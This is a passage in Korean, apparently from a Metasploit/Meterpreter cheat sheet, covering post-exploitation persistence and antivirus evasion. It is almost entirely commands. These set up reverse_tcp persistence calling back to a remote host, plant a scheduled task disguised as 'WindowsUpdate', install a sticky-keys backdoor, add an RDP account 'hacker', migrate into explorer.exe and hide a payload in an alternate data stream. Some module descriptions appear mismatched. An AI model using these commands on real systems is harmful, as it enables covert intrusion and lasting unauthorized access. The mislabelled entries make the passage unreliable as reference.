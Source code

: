 ## 지속성 (Persistence)

### 기본 지속성 메커니즘

```bash
# 서비스로 지속성 설정
meterpreter > run persistence -S -U -X -i 5 -p 4444 -r 192.168.1.50

# 레지스트리 기반 지속성
meterpreter > run persistence -A -L c:\\temp\\ -P windows/meterpreter/reverse_tcp -p 4444 -r 192.168.1.50

# 스케줄러 작업으로 지속성
meterpreter > run scheduleme -c "C:\\temp\\backdoor.exe" -tn "WindowsUpdate"
```

### 고급 지속성 기법

```bash
# WMI 이벤트 구독
meterpreter > run post/windows/manage/wmi_persistence

# Sticky Keys 백도어
meterpreter > run post/windows/manage/sticky_keys

# 새 관리자 계정 생성
meterpreter > run post/windows/manage/enable_rdp USERNAME=hacker PASSWORD=P@ssw0rd
```

## 안티바이러스 회피

### 프로세스 숨기기

```bash
# 프로세스 목록에서 숨기기
meterpreter > migrate 1234  # explorer.exe 같은 정상 프로세스로 이동

# 메모리 내 실행
meterpreter > execute -f payload.exe -m
```

### 파일 숨기기

```bash
# 파일 속성 숨김 설정
meterpreter > run post/windows/manage/priv_migrate

# ADS(Alternate Data Streams) 사용
meterpreter > upload payload.exe C:\\Windows\\System32\\calc.exe:hidden.exe
```

## 레지스트리 조작
